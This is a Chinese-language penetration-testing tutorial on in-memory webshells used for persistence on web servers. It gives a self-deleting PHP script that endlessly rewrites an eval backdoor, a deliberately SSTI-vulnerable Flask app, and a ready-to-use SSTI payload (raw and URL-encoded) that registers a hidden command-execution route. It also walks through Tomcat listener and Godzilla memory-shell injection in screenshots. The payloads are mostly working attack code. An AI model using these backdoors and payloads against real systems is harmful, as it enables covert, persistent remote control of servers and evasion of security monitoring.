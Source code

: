 ```yaml
---
title: day17-权限维持篇-web-内存马
date: 2024-03-21 23:13 +0800
categories: [内网,web] 
tags: [横向移动,Linux]
img_path: /img/penetration/
---
```


## 0x00前言

Webshell内存马，是在内存中写入恶意后门和木马并执行，达到远程控制Web服务器的一类内存马，其瞄准了企业的对外窗口：网站、应用。但传统的Webshell都是基于文件类型的，黑客可以利用上传工具或网站漏洞植入木马，区别在于Webshell内存马是无文件马，利用中间件的进程执行某些恶意代码，不会有文件落地，给检测带来巨大难度。 

内存webshell相比于常规webshell更容易躲避传统安全监测设备的检测，通常被用来做持久化，规避检测，持续驻留目标服务器。==无文件攻击、内存Webshell、进程注入等基于内存的攻击手段也受到了大多数攻击者青睐。==

再次之后可能会详细的介绍有关于webshell内存马的文章！！！

## 0x01 php内存马

对于php来说，实际上不算是比较存粹的内存马。在php中最主要的是写入一个php文件使其能够达到删除不掉的地步，也就是不断的生成文件，详情参考下面的代码：

```php
set_time_limit()函数：设置允许脚本运行的时间，单位为秒（如果设置该运行时间，sleep()函数在执行程序时的持续时间将会被忽略掉）
ignore_user_abort()函数：函数设置与客户机断开是否会终止脚本的执行（如果设置为True，则忽略与用户的断开）
unlink(FILE)函数：删除文件（防止文件落地被检测工具查杀）
file_put_contents函数：将一个字符串写入该文件中
usleep函数：延迟执行当前脚本数微秒，即条件竞争
```

```php
<?php
ignore_user_abort(true);
set_time_limit(0);
@unlink(__FILE__);
$file = '.yuan.php';
$code = '<?php @eval($_POST[\'c\']); ?>';
while (1){
    file_put_contents($file,$code);
    usleep(5000);
}
?>
```

效果如下：

![截图](0187b66d9b9b1c7e753a423b18b4b7a9.png)

此时，就会发现我们一直无法删除这个文件了！！！ 除非重启。

> php这里是有文件显示的！

## 0x02 python

python这里则是基于`flask`的模板注入;

首先，启动`flask`的模板：

```python
from flask import Flask,request
from flask import render_template_string
app = Flask(__name__)

@app.route('/')
def hello_world():
    return 'Hello World'


@app.route('/test',methods=['GET', 'POST'])
def test():
    template = '''
        <div class="center-content error">
            <h1>Oops! That page doesn't exist.</h1>
            <h3>%s</h3>
        </div> 
    ''' %(request.values.get('param'))

    return render_template_string(template)


if __name__ == '__main__':
    app.run(port=8000)   
```

```cmd
python flaskSstiServer.py
```

此时，注入内存马的参数：

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell', 
        'shell', 
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
    )",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
)
```

```text
http://127.0.0.1:8000/test?param={{url_for.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}
```

![截图](b49db16c1ce2bfec32874e1c785a6b83.png)

此时，访问shell地址即可！

![截图](4fef440a66495272472f7d37374cb35e.png)

从这里我们也可以看见，我们当前目录下面是没有任何文件的，但是我们依然可以访问并执行命令！

## 0x03 java

利用文件上传注入内存马。环境是tomact9和jdk11 ！

#### 搭建环境

配置tomcat请参考：https://blog.csdn.net/qq_29493173/article/details/110304388

在IntelliJ IDEA中配置Tomcat：https://blog.csdn.net/Wxy971122/article/details/123508532

> 如果TOMCAT启动提示NB: JAVA_HOME should point to a JDK not a JRE解决
>
> https://blog.csdn.net/caozhongyan/article/details/6602759
>
> 如果ide没有tomcat：
>
> https://blog.csdn.net/u010459738/article/details/109612997

#### 内存马种类介绍

1、按攻击思路，大致分为：

-Java Instrumentation类（Agent型）

-Servlet-api类（Servlet型、Filter型、Listener型）

-Spring类（Controller型、Interceptor型）

2、按注入的对象分为：tomcat、weblogic、shiro等类型。

#### 演示

首先，我们来看看`listener`类型的内存马：

![截图](ca93ec0be4e4eee3b70d54d4c33cbabe.png)

然后我们可以在tomcat的根目录下看到该文件已经被上传成功！！

![截图](f6687749946d3f7e67cbad362c31f524.png)

由于此时，该文件还没被执行，因此还没有注入内存马，此时我们访问一些不存在的页面（带参数）时候是不会成功的！

![截图](47f313dcabce667f57aeb7f1e1e25916.png)

那么接下来，让我们访问一下该内存马：

![截图](9abc2fb97c9f664dee6f6132230f76db.png)

会弹出计算器，然后此时由于已经注入到内存中，只要我们输入的参数包含了`cmd`的话就会被监控到并执行相应的效果：（~~即使该页面不存在）~~

![截图](7820326805dcb4da1edcebc0dcc0f114.png)

#### 哥斯拉注入演示

首先，生成一个木马并上传：

![截图](516a79df551bed204f4912ad0f1da154.png)

然后建立连接并访问：（注意这里的访问路径要写入对应的上传地址）

![截图](f2e0b34128c6196ac13d671a0178fbfb.png)

此时，我们连接`1.jsp`是可以的：

![截图](c44189042cca1e17d70fb68cf76ef335.png)

然后，我们利用此进行注入：

![截图](f563436b255aec034f94aaf3cb49581f.png)

这里，当我们不点击run时候，我们无论如何是也连接不进去的（而且`.ico`也是个图片）

![截图](7be38268e2fb87264718205aea5ec067.png)

然后我们点击run：

![截图](f0ef6883dded01c141c0b1243164d6fa.png)

就发现成功了！！

此时，我们即使把之前的`1.jsp`删了，我们的内存马也可以连接：

![截图](f23d1a178ab84e1fad99381527943ef1.png)

![截图](6f0424bc0911e24d55a0563f5a888717.png)

而且在根目录下面也是没有文件的：

![截图](903ad7079e1fb3d98e27420f4bdc408a.png)
